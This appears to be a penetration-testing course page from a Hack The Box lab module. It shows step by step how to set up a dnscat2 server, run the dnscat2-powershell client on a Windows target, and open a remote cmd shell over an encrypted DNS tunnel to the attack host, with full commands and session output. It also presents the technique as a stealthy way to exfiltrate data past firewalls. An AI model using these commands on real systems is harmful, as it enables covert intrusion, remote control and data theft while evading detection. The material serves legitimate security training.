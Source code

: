 # Branching Out Our Tunnels

## DNS Tunneling with Dnscat2

***

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

***

### Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

**Cloning dnscat2 and Setting Up the Server**

DNS Tunneling with Dnscat2

```shell-session
AIceBear@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

We can then start the dnscat2 server by executing the dnscat2 file.

**Starting the dnscat2 server**

DNS Tunneling with Dnscat2

```shell-session
AIceBear@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

**Cloning dnscat2-powershell to the Attack Host**

DNS Tunneling with Dnscat2

```shell-session
AIceBear@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

**Importing dnscat2.ps1**

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

**Confirming Session Establishment**

DNS Tunneling with Dnscat2

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

We can list the options we have with dnscat2 by entering `?` at the prompt.

**Listing dnscat2 Options**

DNS Tunneling with Dnscat2

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

**Interacting with the Established Session**

DNS Tunneling with Dnscat2

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

